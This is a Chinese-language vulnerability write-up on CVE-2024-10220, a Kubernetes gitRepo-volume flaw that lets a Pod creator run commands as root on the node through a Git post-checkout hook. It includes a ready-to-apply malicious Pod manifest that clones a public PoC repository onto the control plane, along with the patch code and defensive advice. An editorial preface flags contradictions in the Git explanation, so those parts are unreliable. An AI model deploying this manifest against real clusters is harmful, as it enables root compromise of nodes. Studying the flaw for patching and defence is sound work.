










# 利用gitRepo卷在Node上RCE(CVE-2024-10220)

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：可创建Pod并使用gitRepo、节点Git CLI可用、受影响kubelet；文列1.30.0–.2/1.29.0–.6/<=1.28.11
- 证据范围：实验路径、目录参数校验补丁、修复后失败对照均有，独立分析应保留；Git仓库识别解释存在自相矛盾

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 先明确core.bare=false，后解释为裸仓库内checkout钩子，需校正Git元数据/工作树识别机制
- directory:.指卷内根目录，不是容器文件系统根目录
- nodeName指定控制平面仍受准入/节点可达与调度约束
- 文末称维护者不修复却前文展示本CVE修复，需明确指历史不同问题
- GitHub master源码是可变链接，应固定相关commit

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 李坦然  安全小将李坦然   2024-11-28 13:18  
  
## 1 背景  
  
在 Kubernetes 中，gitRepo  
卷驱动允许用户通过 URL 指定一个 Git 仓库，Kubelet  
会克隆该仓库，并将其内容挂载到 Pod 中。该驱动早已被标记为**废弃**  
(死缓，一直未移除)，但仍然存在于 Kubernetes 的默认安装中。这为攻击者提供了一个攻击面。具体可看官方文档：  
https://kubernetes.io/zh-cn/docs/concepts/storage/volumes/#gitrepo  
## 2 影响版本  
- kubelet v1.30.0 ~ v1.30.2  
- kubelet v1.29.0 ~ v1.29.6  
- kubelet <= v1.28.11  
## 3 利用前提  
  
都需要满足。  
- Kubernetes 集群中启用了 gitRepo 卷驱动程序。  
- 拥有创建 Pod 的权限。  
- 集群中存在支持调用 Git CLI 的工作节点。  
在GitHub上搜索，使用 gitRepo 卷驱动程序的案例数据还是不少的。  
  
https://github.com/search?q=gitRepo%3A+++repository%3A+%22http&type=code&p=3  
  
  
## 4 漏洞风险  
  
在节点主机环境中以 root 身份执行命令。  
## 5 前置知识  
  
**5.1 Git 中裸仓库和非裸仓库**  
```
# 创建裸仓库
mkdir bare-repo	&& cd bare-repo && git init --bare
# 裸仓库的目录内容
branches/  config  description  HEAD  hooks/  info/  objects/  refs/

# 创建非裸仓库
mkdir non-bare-repo && cd non-bare-repo && git init
# 非裸仓库的目录内容
root@test:~/non-bare-repo# ls
root@htest:~/non-bare-repo# ls -a
.  ..  .git
root@test:~/non-bare-repo# ls -a .git/
.  ..  branches/  config  description  HEAD  hooks/  info/  objects/  refs/
```  
  
  
  
**5.2 Git 的钩子机制（Hooks）**  
  
当 Git 执行某些操作时，它会检查.git/hooks/  
目录中的相应脚本文件。如果这些脚本文件存在且具有执行权限，Git 会自动执行这些脚本。常见的钩子包括：  
- post-checkout  
：在git checkout  
操作之后执行，通常用于切换分支时执行一些特定操作。  
- post-commit  
：在提交操作（git commit  
）完成后执行，用于在提交后做一些后处理操作，比如推送到远程仓库或通知系统。  
- post-merge  
：在合并操作（git merge  
）完成后执行，通常用于执行合并后的一些操作，例如代码质量检查或自动测试。  
5.3 gitRepo 卷  
  
gitRepo  
卷驱动程序的设计是为了将一个 Git 仓库的内容作为文件系统卷挂载到 Pod 中，这使得你可以从 Git 仓库直接获取数据，并将其提供给容器。在处理该配置时，Kubelet (节点组件)会执行一系列步骤，具体流程如下：    
  
① 读取 gitRepo 配置：解析 Pod 中的 gitRepo 配置项，包括以下字段：  
- repository  
：Git 仓库的 URL。  
- revision  
：（可选）要检出的特定提交或标签。  
- directory  
：（可选）指定克隆内容存储的子目录。  
```
# 配置案例
......
......
spec:
  containers:
  ......
  ......
  volumes:
  - name: git-volume
    gitRepo:
      repository: "https://github.com/nginxinc/NGINX-Demos.git"
      revision: "main" # 可选，指定分支或版本号
      directory: "."   # 可选，指定克隆到的目录,将 Git 仓库的内容克隆到容器的根目录
```  
  
② Kubelet 执行克隆操作：  
- 使用git clone  
将指定的repository  
克隆到由directory  
定义的路径中。  
      
  
③ Kubelet 执行 Git 操作：  
- 如果 Pod 配置中指定了revision  
，Kubelet 会执行git checkout  
命令，将仓库切换到指定的分支、标签等。  
- 为了确保工作目录状态一致，Kubelet 还可能执行git reset  
操作。  
      
  
④ 将 Git 仓库内容挂载到容器中：  
- 完成git clone  
和git checkout  
后，Kubelet 会将仓库的内容作为卷挂载到 Pod 中容器的文件系统。容器可以通过指定的路径访问这些文件。    
## 6 漏洞复现  
  
这里我借助开源 POC 进行实操演示，  
https://github.com/mochizuki875/CVE-2024-10220-githooks  
。  
  
POC 是以下方 echo 命令来判断是否攻击成功的，  
  
  
  
POC 库中 config 文件定义了bare = false  
，标识该仓库是一个非裸仓库，非裸仓库是会包含工作目录和 .git 目录。  
  
  
  
测试环境：集群版本 v1.30.0；节点主机上需要安装 Git 并正确配置 $PATH。恶意 Pod 配置如下：  
```
echo 'apiVersion: v1
kind: Pod
metadata:
  name: cve-2024-10220-gitrepo
spec:
  nodeName: demo-control-plane # 强制将POD调度到Master上
  containers:
  - image: docker.io/library/busybox:1.31.1
    name: busybox
    command: ["/bin/sh", "-c", "sleep infinity"]
    volumeMounts:
    - mountPath: /gitrepo
      name: git-volume
  terminationGracePeriodSeconds: 0
  volumes:
  - name: git-volume # 恶意配置
    gitRepo:
      repository: https://github.com/mochizuki875/CVE-2024-10220-githooks.git
      revision: master
      directory: cve-2024-10220-gitrepo/.git' | kubectl apply -f -
```  
  
Pod 创建成功。(建议使用 Gitee 拉取 GitHub 中 POC 仓库，以免 POC 拉取不下来)  
  
  
  
成功在Master节点上执行命令。  
  
  
## 7 漏洞核心  
  
问题出现在**directory 参数的处理上**  
：  
- **挂载 Git 仓库到 Pod：**  
directory 参数的设置就很巧妙，正常应该是directory: cve-2024-10220-gitrepo  
，而 POC 中则是设置成directory: cve-2024-10220-gitrepo/.git  
，在 Pod 中可以直观的看见，POC 库的内容是保存在gitrepo/cve-2024-10220-gitrepo/.git  
目录中的。  
  
  
  
- **Kubelet 执行**git clone**和**git checkout**：**  
由于directory  
指定了gitrepo/cve-2024-10220-gitrepo/.git  
目录，Git 默认会将该目录视为裸仓库的根目录，并不会进一步解析内部的 .git 子目录gitrepo/cve-2024-10220-gitrepo/.git/.git  
。在裸仓库中，Git 依然会使用钩子机制(前置知识中已解释)，由于裸仓库没有工作区，post-checkout  
钩子会在裸仓库中执行，而非在常规的工作区目录中。总的来说，当 Kubelet 执行git checkout  
时，触发post-checkout  
钩子，使得cve-2024-10220-gitrepo/.git/hooks/post-checkout  
文件内容执行，并且 Git 不会检查文件内容是否安全，因此，可以在该文件中写入任意系统命令。由于Kubelet  
是以节点主机的root  
权限运行的，因此攻击者的恶意钩子代码post-checkout  
可以在节点主机环境中以root  
身份执行命令。  
## 8 K8S在此方面的缺陷  
  
directory**参数未被严格校验**  
。  
  
修复版本中解决了这个缺陷，代码中增加了对 Directory 参数的检查措施，检查参数中是否包含 / 或 \，目的就是避免出现值为cve-2024-10220-gitrepo/.git  
此类情况。  
  
https://github.com/kubernetes/kubernetes/blob/master/pkg/volume/git_repo/git_repo.go  
```
if (src.Revision != "") && (src.Directory != "") {
	cleanedDir := filepath.Clean(src.Directory)
	if strings.Contains(cleanedDir, "/") || (strings.Contains(cleanedDir, "\\")) {
		return fmt.Errorf("%q is not a valid directory, it must not contain a directory separator", src.Directory)
	}
}
```  
  
尝试使用修复后的集群去创建上述 Pod，失败，输出的警告就是上方代码的结果return fmt.Errorf("%q is not a valid directory, it must not contain a directory separator", src.Directory)  
，说：cve-2024-10220-giterepo/.git  
不是有效目录，它不能包含目录分隔符。  
  
  
  
如果你想将仓库保存在web/abc/  
此类目录也是不行的。  
  
  
## 9 防御  
  
此 gitRepo 卷驱动程序早在五年前就爆出了高危漏洞，但 Kubernetes 维护者决定不修复此缺陷。该驱动程序已被弃用超过 5 年，并且文档中已经强调了解决方法(替代方法)。请移步：  
https://kubernetes.io/docs/concepts/storage/volumes/#gitrepo  
。或者升级集群版本。  
## 10 参考文章  
  
https://github.com/kubernetes/kubernetes/issues/128885  
  
https://irsl.medium.com/sneaky-write-hook-git-clone-to-root-on-k8s-node-e38236205d54  
  
https://github.com/mochizuki875/CVE-2024-10220-githooks  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
